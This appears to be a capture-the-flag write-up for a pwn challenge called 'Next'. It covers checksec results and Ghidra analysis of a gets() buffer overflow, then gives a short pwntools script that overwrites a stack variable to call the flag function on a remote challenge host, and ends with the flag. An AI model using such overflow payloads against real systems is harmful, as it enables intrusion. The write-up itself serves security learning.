 # 🧩 Next – Pwn Challenge Writeup

## 📌 Challenge Name : **Next**
![Challenge Overview](assets/Overview.png)
---

## 📷 Section 1: Binary Security Check (Checksec)

![Checksec Screenshot](assets/Checksec.png) 

### 🔒 Security Analysis (Checksec Output)

- **RELRO**: Partial – GOT is not fully protected, allowing GOT overwrite attacks.
- **Stack Canary**: ❌ Missing – No protection against stack buffer overflows.
- **NX**: ❌ Disabled – The stack is executable, making shellcode injection possible.
- **PIE**: ✅ Enabled – Code is loaded at random memory addresses.
- **Symbols**: ✅ Present – Not stripped, helpful for reverse engineering.

---

## 🧠 Section 2: Ghidra Static Analysis

![Ghidra Screenshot](assets/Ghidra.png)

### 🔍 Key Observations (from Ghidra)

- The program reads input using `gets()`, making it vulnerable to buffer overflows.
- A 72-byte buffer is followed by a 64-bit variable `local_10`.
- The value of `local_10` is compared to `0x3839736f7265` (ASCII: `"eros98"`).
- If matched, the function `flag()` is called.

---

## 🎯 Exploitation

Overflow the buffer and overwrite `local_10` with the desired value:

````
from pwn import *

payload = b"A" * 72 + p64(0x3839736f7265)

# Remote exploit
p = remote("airange.aucssociety.com", 47331)
p.sendlineafter("destination?", payload)
p.interactive()
````

---

## 🏁 Flag

```
flag{Y0U_4r3_G00D_4T_bU55s}
```

---

## 👤 Author

### ~ **Basim Mehdi**  
### ~ *Team: 0xFAILURES*